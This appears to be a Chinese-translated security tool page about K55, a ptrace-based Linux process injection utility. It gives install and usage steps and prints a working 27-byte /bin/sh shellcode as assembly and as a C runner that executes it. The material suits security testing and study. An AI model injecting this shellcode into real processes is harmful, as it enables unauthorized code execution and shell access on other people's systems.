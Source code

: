 # K55 : Linux X86_64 进程注入实用程序

> 原文：<https://kalilinuxtutorials.com/k55/>

[![K55 : Linux X86_64 Process Injection Utility](img//f7e7e9472ea0b04040e317e62475c8aa.png "K55 : Linux X86_64 Process Injection Utility")](https://1.bp.blogspot.com/-48FfEHSgVAU/YACcAvPP8QI/AAAAAAAAIWg/wTHVmuBmlE0eRsVkUobAF3RTVPWfBs0KwCLcBGAsYHQ/s728/K55.png)

**K55** 净荷注入工具用于将 x86_64 外壳代码净荷注入正在运行的进程。该实用程序是使用现代 C++11 技术以及一些传统的 C linux 函数如 **`ptrace()`开发的。**

目标进程中产生的外壳代码有 27 个字节，它在目标的地址空间中执行/bin/sh(产生一个 bash 外壳)。将来，我将允许用户通过命令行参数输入他们自己的外壳代码。

**安装**

【T4`git clone https://github.com/josh0xA/K55.git`
`cd K55`
`chmod +x build-install.sh`
`./build-install.sh`

**用途**

`**Usage: ./K55 <process-name>**`

*   process-name 可以是任何具有`r-xp`或`execstack`权限的 linux 进程。

**测试**

测试 1)在一个终端(K55/目录)，运行:`**./k55_example_process/k55_test_process**`
测试 2)在另一个终端，运行注射器:`**./K55 k55_test_process**`

**在行动中**

*   当 K55 shellcode 注入器运行时(作为根用户)，在 k55_test_process 中会产生一个 shell。

**注入给定流程**

![](img//855a21e8745a20ad7a608561a48b12e1.png)

**目标**中产生的外壳

![](img//9877e0bdc469143293fefcbce549ce96.png)

**限制**

显然，`**ptrace(PTRACE_POKETEXT...)**`通话并不是最伪装的。所以，有些应用会限制 K55 的作用。但是，为了进行安全测试，请确保为您的目标应用程序打开`**execstack**`。例如，如果我在 gdb 上测试，在我注入之前，我会运行下面的:`**sudo execstack -s /usr/bin/gdb**`。从您的发行版软件包管理器安装 execstack。对于 Arch Linux 用户，可以在 AUR 上找到 execstack。

**制作外壳负载**

**注:**以下为演示。有效载荷字符串已经被硬编码到 K55 中。

**有效载荷的组装实现([引自 shell-storm(重定向)](http://shell-storm.org/shellcode/files/shellcode-806.php) )**

```
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

*   **C-有效载荷的实现**

```
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

[**Download**](https://github.com/josh0xA/K55)